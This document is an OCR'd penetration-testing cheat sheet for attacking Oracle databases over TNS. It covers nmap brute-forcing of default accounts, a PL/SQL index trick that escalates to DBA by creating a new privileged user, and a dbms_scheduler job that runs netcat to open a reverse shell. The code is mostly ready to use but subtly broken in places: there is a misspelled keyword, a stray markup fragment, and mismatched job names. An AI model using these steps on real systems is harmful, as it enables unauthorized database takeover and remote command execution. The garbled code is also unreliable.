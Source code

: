 	Run nmap scripts against Oracle TNS:
		nmap -p 1521 -A TARGET

	Oracle Privilege Escalation
		Requirements:
		    Oracle needs to be exposed on the network
		    A default account is in use like scott

		Quick overview of how this works:
			    Create the function
			    Create an index on table SYS.DUAL
			    The index we just created executes our function SCOTT.DBA_X
			    The function will be executed by SYS user (as that’s the user that owns the table).
			    Create an account with DBA priveleges

		In the example below the user SCOTT is used but this should be possible with another default Oracle account.
		Identify default accounts within oracle db using NMAP NSE scripts:

			nmap --script=oracle-sid-brute 
			nmap --script=oracle-brute 

		Login using the identified weak account (assuming you find one).
		How to identify the current privilege level for an oracle user:

			SQL> select * from session_privs; 
			SQL> CREATE OR REPLACE FUNCTION GETDBA(FOO varchar) return varchar deterministic authid 
			curren_user is 
			pragma autonomous_transaction; 
			begin 
			execute immediate 'grant dba to user1 identified by pass1';
			commit;
			return 'FOO';
			end;

		Oracle priv esc and obtain DBA access:
			Run netcat: netcat -nvlp 443code>
			SQL> create index exploit_1337 on SYS.DUAL(SCOTT.GETDBA('BAR'));

		Run the exploit with a select query:
			SQL> Select * from session_privs; 

	You should have a DBA user with creds user1 and pass1.
		Verify you have DBA privileges by re-running the first command again.
		Remove the exploit using:
			drop index exploit_1337; 

		Get Oracle Reverse os-shell:
			begin
			dbms_scheduler.create_job( job_name    => 'MEH1337',job_type    =>
			    'EXECUTABLE',job_action => '/bin/nc',number_of_arguments => 4,start_date =>
			    SYSTIMESTAMP,enabled    => FALSE,auto_drop => TRUE); 
			dbms_scheduler.set_job_argument_value('rev_shell', 1, 'TARGET-IP');
			dbms_scheduler.set_job_argument_value('rev_shell', 2, '443');
			dbms_scheduler.set_job_argument_value('rev_shell', 3, '-e');
			dbms_scheduler.set_job_argument_value('rev_shell', 4, '/bin/bash');
			dbms_scheduler.enable('rev_shell'); 
			end; 
